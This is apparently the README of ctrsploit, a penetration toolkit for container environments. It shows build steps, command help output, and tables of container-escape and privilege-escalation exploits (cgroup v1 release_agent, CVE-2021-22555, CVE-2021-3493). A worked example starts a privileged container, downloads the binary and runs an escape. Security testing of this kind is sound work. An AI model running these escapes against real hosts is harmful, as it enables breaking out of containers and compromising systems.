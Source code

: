# ctrsploit: A penetration toolkit for container environment

[中文文档](./README-ZH.md)

ctrsploit [kənˈteɪnər splɔɪt] , follows [sploit-spec](https://github.com/ctrsploit/sploit-spec) v0.4.3

## Why ctrsploit

see [here](https://github.com/ctrsploit/ctrsploit/discussions/11)

## Pre-Built Release

https://github.com/ctrsploit/ctrsploit/releases

## Self Build

### Build in Container

```bash
make binary && ls -lah bin/release
```

### Build in Local

```
make build-ctrsploit
```

## Usage

### Quick-Start

```
wget -O ctrsploit https://github.com/ctrsploit/ctrsploit/releases/download/v0.5.12/ctrsploit_linux_amd64 && chmod +x ctrsploit
NAME:
   ctrsploit - A penetration toolkit for container environment

               ctrsploit is a command line ... //TODO


USAGE:
   ctrsploit [global options] command [command options] [arguments...]

COMMANDS:
   auto, a      auto gathering information, detect vulnerabilities and run exploits
   env, e       gather information
   exploit, x   run a exploit
   checksec, c  check security inside a container
   helper, he   some helper commands such as local privilege escalation
   version      Show the sploit version information
   help, h      Shows a list of commands or help for one command

GLOBAL OPTIONS:
   --debug         Output information for helping debugging sploit (default: false)
   --experimental  enable experimental feature (default: false)
   --colorful      output colorfully (default: false)
   --json          output in json format (default: false)
   --help, -h      show help
```

### gather information

usage

```
root@ctr:/# ./ctrsploit env
NAME:
   ctrsploit env - gather information

USAGE:
   ctrsploit env command [command options] [arguments...]

COMMANDS:
   auto              auto
   where, w          detect whether you are in the container, and which type of the container
   graphdriver, g    detect graphdriver type and extend information
   cgroups, c        gather cgroup information
   capability, cap   show the capability of pid 1 and current process
   seccomp, s        show the seccomp info
   apparmor, a       show the apparmor info
   selinux, se       show the selinux info
   fdisk, f          like linux command fdisk or lsblk // TODO
   kernel, k         collect kernel environment information
   namespace, n, ns  check namespace is host ns
   help, h           Shows a list of commands or help for one command

OPTIONS:
   --help, -h  show help
```

where

```
root@ctr:/# ./ctrsploit  env  w

===========Container===========
[Y]  Is in Container

===========Docker===========
[Y]  .dockerenv exists
[N]  rootfs contains 'docker'   
[N]  cgroups contains 'docker'
[Y]  the mount source of /etc/hosts contains 'docker'   
[Y]  hostname match regex ^[0-9a-f]12$
---
[Y]  => Is in docker

===========k8s===========
[N]  /var/run/secrets/kubernetes.io exists
[N]  hostname match k8s pattern
[N]  the mount source of /etc/hosts contains 'pods'
[N]  contains 'kubepods'
---
[N]  => is in k8s
```

### run a exploit

```
root@2aa13a052102:/# ./ctrsploit exploit
NAME:
   ctrsploit exploit - run a exploit

USAGE:
   ctrsploit exploit command [command options] [arguments...]

COMMANDS:
   cgroupv1-release_agent, ra                       escape tech by using the notify_on_release of cgroup v1
   cgroupv1-release_agent-unknown_rootfs, ra3       escape tech by using the notify_on_release of cgroup v1 without known rootfs
   help, h                                          Shows a list of commands or help for one command

OPTIONS:
   --help, -h  show help (default: false)

```

eg. : escape by 'cgroupv1-release_agent' tech.

```
root@host # docker run -ti --rm --security-opt="apparmor=unconfined" --cap-add="sys_admin" busybox
root@ctr # wget -O ctrsploit https://github.com/ctrsploit/ctrsploit/releases/download/v0.4/ctrsploit_linux_amd64 && chmod +x ctrsploit
root@ctr # ./ctrsploit e ra -c "cat /etc/hostname"
```

### check security

Just execute `ctrsploit checksec` or standalone binary file `checksec` in the container.

```
./checksec_linux_amd64 auto
[N]  cap_sys_admin      # Container can be escaped when has cap_sys_admin and use cgroups v1
[N]  host_net_ns        # The network namespace of the host is shared
...
```

## Details

### env

| command                          | alias | description                                                              |
|----------------------------------|-------|--------------------------------------------------------------------------|
| [auto](./env/auto)               |       | auto gather environment information                                      |
| [where](./env/where)             | w     | detect whether you are in the container, and which type of the container |
| [graphdriver](./env/graphdriver) | g     | detect graphdriver type and extend information                           |
| [cgroups](./env/cgroups)         | c     | gather cgroup information                                                |
| [capability](./env/capability)   | cap   | show the capability of pid 1 and current process                         |
| [seccomp](./env/seccomp)         | s     | show the seccomp info                                                    |
| [apparmor](./env/apparmor)       | a     | show the apparmor info                                                   |
| [namespace](./env/namespace)     | n, ns | check namespace is host ns                                               |

### exploit

| exploit                                                                                  | alias | description                                                                  |
|------------------------------------------------------------------------------------------|-------|------------------------------------------------------------------------------|
| [cgroupv1-release_agent](./exploit/cgroupv1-release_agent)                               | ra    | escape tech by using the notify_on_release of cgroup v1                      |
| [cgroupv1-release_agent-unknown_rootfs](./exploit/cgroupv1-release_agent-unknown_rootfs) | ra3   | escape tech by using the notify_on_release of cgroup v1 without known rootfs |
| [cve-2021-22555_ubuntu18.04](./exploit/CVE-2021-22555_ubuntu18.04)                       | 22555 | escape tech by using the CVE-2021-22555 (ubuntu18.04)                        |

### helper

| helper                                  | alias                    | description                    |
|-----------------------------------------|--------------------------|--------------------------------|
| [cve-2021-3493](./helper/cve-2021-3493) | ubuntu-overlayfs-pe,3493 | Ubuntu OverlayFS Local Privesc |

### checksec

Just execute `ctrsploit checksec` or standalone binary file `checksec`.